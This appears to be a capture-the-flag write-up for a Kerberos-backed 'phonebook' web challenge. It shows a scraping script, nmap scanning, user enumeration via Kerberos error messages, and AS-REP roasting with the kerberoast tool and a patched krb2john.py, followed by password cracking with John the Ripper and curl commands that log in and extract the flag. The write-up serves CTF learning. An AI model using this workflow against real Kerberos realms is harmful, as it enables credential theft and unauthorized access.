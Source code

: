 #### Challenge:

Hi Expert,

the archaeologists are looking forward to get some phone numbers from the phone book running on `http://78.128.246.142`, don't make them wait too long.

Good Luck!

---

#### Solution:

We are provided with a site that claims it is some kind of `phonebook`.

It has 2 functions:

1. It allows to search for persons in the phonebook by inputting any `at least 2 character` string (case insensitively)
2. It has simple login interface with fields `username`, `password` and `realm` that has force-fixed value `SUPERPHONEBOOK.TCC`

Using this script:

```python
#!/usr/bin/env python3

import requests
import string
import re

ses = requests.session()
r = ses.get('http://78.128.246.142')

phonebook = []

for a in list(string.ascii_lowercase):
    for b in list(string.ascii_lowercase):
        data = {
          "query": f"{a}{b}"
        }
        r = ses.post(f"http://78.128.246.142/search", data=data)

        matches = re.findall(r"<li>.*?</li>",str(r.content))
        if matches:
            for i in range(len(matches)):
                phonebook.append(matches[i])

# deduplicate
phonebook_uniq = (list(set(phonebook)))

for string in phonebook_uniq:
    print(string.replace("<p>", "").replace("<li>", "").replace("</li>", "").replace("\\t", "").replace("\\n", "\n"))
```

We enumerated all entries in the phonebook to get:

```text
email: tytso@superphonebook.tcc
name: Theodore Ts&#39;o
homepage:
phone: anonymous phone search disabled


email: bill@superphonebook.tcc
name: Bill Bryant
homepage: https://web.mit.edu/kerberos/www/dialogue.html
phone: anonymous phone search disabled


email: aaron@superphonebook.tcc
name: Aaron Spelling
homepage: http://enumerate.more
phone: anonymous phone search disabled


email: harmj0y@superphonebook.tcc
name: Will Schroeder
homepage: https://www.harmj0y.net
phone: anonymous phone search disabled
```

Following the advice from a hint we checked other services on the server:

```bash
nmap -v -PE 78.128.246.142
```

to find out that there is kerberos running on port 88:

```text
PORT    STATE    SERVICE
80/tcp  open     http
88/tcp  open     kerberos-sec
135/tcp filtered msrpc
139/tcp filtered netbios-ssn
179/tcp filtered bgp
445/tcp filtered microsoft-ds
```

Trying to log in with the combination of username part from the email and random password reveals interesting info - for users `bill`, `aaron` and `harmj0y` we get this error: `invalid credentials, ('Client not found in Kerberos database', -1765328378)` but for user `tytso` we get: `invalid credentials, ('Decrypt integrity check failed', -1765328353)`. From this, it can be assumed, that we have to somehow get the password for this user.

Putting together the fact that the server is running `kerberos`, the hint to `kerberos "dialogs"` by `Bill Bryant` in `Bill Bryant's` homepage and the fact that on the `www.harmj0y.net` is blog called `Kerberoasting Revisited`, leads us to investigate `kerberoasting` and [asreproasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast) - which we think is the point of this challenge.

Another hint points to `john` which after some time spent searching, in context with `kerberos` and `asreproasting` points to this [file](https://github.com/openwall/john/blob/bleeding-jumbo/run/krb2john.py). In the file there are instructions on how to extract hashes from `PCAP` file containing `AS-REP hashes` to format that is crackable by `John-the-Ripper`.

For `asreproasting` we used [kerberoast](https://pypi.org/project/kerberoast/).

```bash
pip3 install kerberoast
```

Then we started `wireshark` capture and after running the following command we saved the capture as `/tmp/out.pcap`:

```bash
kerberoast asreproast 78.128.246.142 -u tytso -r SUPERPHONEBOOK.TCC -e 18;
```

Then we run the following series of commands:

```bash
tshark -2 -r /tmp/out.pcap -R "tcp.srcport==88 or udp.srcport==88" -T pdml > data.pdml
python3 ./john/run/krb2john.py data.pdml > hash.txt
john hash.txt
```

But they return an error - `Unable to find kerberos.salt value. Please report this bug to us!`. Digging a bit into the `krb2john.py` code, we can see that this happens, when the `e-type` is not `23` (which isn't supported by this challenge, only `17` and `18` are) and when the `salt` for the hash is missing. Looking into the `data.pdml`, I see there a field with name `kerberos.info2_salt` but `krb2john.py` is looking for `kerberos.salt`. Patching it in the  `krb2john.py` and rerunning the commands sucessfully returns the password of the user `tytso` to be `garfunkel4`. With that we can login and the flag is found in `tytso`'s phone number.

```bash
curl 'http://78.128.246.142/login' -s --data-raw 'username=tytso&password=garfunkel4' --cookie-jar cookies > /dev/null
curl 'http://78.128.246.142/search' -s --cookie cookies --data-raw 'query=th' | grep -oe 'FLAG{.*}'
```

---

<details><summary>FLAG:</summary>

```
FLAG{MLeq-38Tt-Y1Tz-NdE9}
```

</details>
<br/>
